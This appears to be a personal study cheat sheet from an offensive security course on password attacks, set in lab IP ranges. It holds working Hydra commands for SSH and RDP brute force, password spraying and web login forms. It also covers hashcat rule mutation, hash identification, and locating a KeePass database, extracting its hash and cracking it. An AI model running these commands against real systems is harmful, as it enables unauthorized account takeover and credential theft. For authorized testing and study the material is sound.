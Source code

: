 [[Notes/Password Attacks|Password Attacks]]

# Attacking Network Service Logins
## SSH and RDP logins
### THC-Hydra
TAGS: #hydra #password-cracking #dictionary-attack #ssh #rdp
```shell
# unzip if it wasn't already
sudo gzip -d rockyou.txt.gz

# simple hydra command
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
#### Password Spraying
```shell
# password sparying with a list of usernames
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
## HTTP POST login forms
```shell
# put things in place after we have intercepted with burp (could utilize burp's intruder?)
# hydra -l ^username^ -P ^password list path^ ^host^ http-post-form "location:var1=^username^:var2=^PASS^:^login_failed_text^"
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

# Password Cracking
```shell
echo -n "secret" | sha256sum #-n for eliminating new line

# wordcount
echo -n "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" | wc -c

# hashcat benchmaerk
hashcat -b
# OR
hashcat.exe -b

# calculate
(($word_count^$password_length)/$hash_rate*100000) = $seconds
```

## Wordlist mutation
USEFUL LINK : https://hashcat.net/wiki/doku.php?id=rule_based_attack
```shell
# remove lines start with "1", -i instantanious /^1 start with "1", /d delete
sed -i '/^1/d' wordlist.txt

# rule file to append "1" to the end of each line
echo \$1 > rule.rule

# hashcat in debugging mode with -r for rule sets
hashcat -r demo.rule --stdout wordlist.txt

# capitalize the first letter and add "1" at the end of line
cat rule1.rule
$1 c

# same as above, but it will do the jobs separately
cat rule2.rule
$1
c

# premade rule files for hashcat
ls -la /usr/share/hashcat/rules/

```

## Cracking Methodology

```shell
# identifying hashes
hash-identifier

Enter Hash : 

# if it cannnot identify
hashcat hash.txt

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+=================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
   #<SNIP>
```

## Password Manager

```powershell
# search for the db file
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```bash
# keepass to JtR
keepass2john Database.kdbx > keepass.hash
# example hash
cat keepass.hash
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
# Eliminate the database, just store the hash as hash

# look for the mode
hashcat --help | grep -i "KeePass"

# Crackin' time
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
# Working with Hashes




